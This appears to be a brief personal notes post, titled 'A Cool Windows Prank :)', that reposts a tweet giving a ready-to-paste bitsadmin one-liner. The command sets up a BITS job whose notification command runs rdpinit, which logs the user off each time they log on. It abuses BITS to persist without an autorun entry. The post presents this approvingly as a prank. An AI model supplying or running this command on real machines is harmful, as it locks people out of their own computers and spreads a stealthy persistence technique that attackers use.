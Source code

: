 ```yaml
---
title: A Cool Windows Prank :)
direct_link: https://twitter.com/fkadibs/status/1434291573655752706
---
```


[@fkadibs](https://twitter.com/fkadibs):

> log off a user whenever they log on, without an autorun:
>
> `bitsadmin /create 1 & bitsadmin /addfile 1 google.com/0.html %temp%\0.html & bitsadmin /setnotifycmdline 1 rdpinit NULL & bitsadmin /resume 1`

This was in reply to a [@SwiftOnSecurity](https://twitter.com/swiftonsecurity) tweet (you should follow them btw) saying:

> Running "rdpinit" in Windows run command will immediately forcibly logoff the user.

what a cool prank :)
